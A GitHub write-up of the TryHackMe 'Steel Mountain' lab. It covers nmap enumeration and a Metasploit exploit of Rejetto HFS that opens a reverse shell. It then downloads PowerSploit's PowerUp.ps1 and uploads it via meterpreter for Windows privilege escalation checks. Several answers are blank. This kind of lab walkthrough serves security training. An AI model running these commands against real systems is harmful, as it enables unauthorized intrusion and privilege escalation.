



# Steel-Mountain-THM-Writeup
TryHackMe Steel Mountain Write-Up – Windows Exploitation &amp; Privilege Escalation

## 📌 Overview
This repository contains my write-up for the Steel Mountain room on TryHackMe.
The goal was to gain initial access to a Windows machine and escalate privileges
to SYSTEM.

## 🎯 Objectives
- Enumerate open services
- Exploit a vulnerable web service
- Gain a shell
- Perform privilege escalation
- Capture user and root flags

### 🔍 Nmap Scan
An initial network scan was performed to identify open ports and services running on the target machine.
The `-sV` flag was used to detect service versions, which helps in identifying potential vulnerabilities.

```bash
nmap -sV <TARGET_IP>
```


Q1. Who is the employee of the month? 
(Hint: Reverse the image)
Answer:

## Initial Access
**Q2.** Scan the machine with nmap. What is the other port running a web server on?
- **Answer:** 8080

**Q3.** Take a look at the other web server. What file server is running?
- **Answer:** Rejetto HTTP File Server


**Q4.** What is the CVE number to exploit this file server?
- **Answer:**
  

**Q5.** Use Metasploit to get an initial shell. What is the user flag?
- **Answer:**
- ```bash
   msfconsole -q
  search hfs 2.3
  use 4
  set rhosts <Target_ip>
  set rport <Target Port>
  set lhost tun0
  run



## Privilege Escalation
To enumerate this machine, we will use a powershell script called PowerUp, that's purpose is to evaluate a Windows machine and determine any abnormalities - "PowerUp aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations."
```bash
  wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
```

**Now you can use the upload command in Metasploit to upload the script.**
```bash
  meterpreter > upload PowerUp.ps1
```
**To execute this using Meterpreter, I will type load powershell into meterpreter. Then I will enter powershell by entering powershell_shell:**
```bash
  meterpreter > load powershell
  meterpreter > powershell_shel
  PS > . .\PowerUp.ps1                                                                                          
  PS > invoke-allchecks
```
**Q6.Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability?**
- **Answer:**
- 
